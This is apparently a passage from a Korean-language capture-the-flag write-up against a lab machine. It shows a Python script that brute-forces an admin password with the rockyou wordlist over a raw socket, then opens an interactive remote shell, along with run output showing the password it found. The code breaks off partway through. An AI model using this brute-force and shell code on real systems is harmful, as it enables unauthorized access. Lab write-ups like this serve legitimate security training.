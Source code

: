```^^
File "/root/password.py", line 41, in fuzz_passwords
passwords = file.readlines()
File "<frozen codecs>", line 325, in decode
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xf1 in position 933: invalid continuation byte
```

# 수정 후 비밀번호 찾기 완료

─# python3 password.py
[-] Failed: 123456
[-] Failed: 12345
[-] Failed: 123456789
[-] Failed: password
[-] Failed: iloveyou
[-] Failed: princess
[-] Failed: 1234567
[-] Failed: rockyou
[-] Failed: 12345678
[+] Found! admin:abc123 -> Welcome Admin!!! Type "shell" to begin

```py
import socket
import time

pyrat_IP = "10.10.247.143"
pyrat_PORT = 8000
wordlist = "/usr/share/wordlists/rockyou.txt"

def send_socket(ip, port, password):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5)
        s.connect((ip, port))
        s.sendall(b'admin\n')
        resp = s.recv(1024).decode(errors="ignore")
        if "Password:" in resp:
            s.sendall(password.encode() + b"\n")
            resp = s.recv(1024).decode(errors="ignore")
            if "success" in resp.lower() or "admin" in resp.lower():
                print(f"[+] Found! admin:{password} -> {resp.strip()}")
                # 비번 찾으면 바로 shell 명령 전송
                s.sendall(b'shell\n')
                shell_resp = s.recv(1024).decode(errors="ignore")
                print(f"[+] Shell Response: {shell_resp.strip()}")
                # 이후 직접 명령어 입력 가능
                while True:
                    cmd = input("$ ")
                    if not cmd: continue
                    s.sendall(cmd.encode() + b"\n")
                    out = s.recv(4096).decode(errors="ignore")
                    print(out.strip())
                return True
            else:
                print(f"[-] Failed: {password}")
    except Exception as e:
        print(f"[!] Connection error for password '{password}': {e}")
    finally:
        try: s.close()
        except: pass
    return False

def brut_pass():
    with open(wordlist, "r", encoding="latin-1", errors="ignore") as file:
```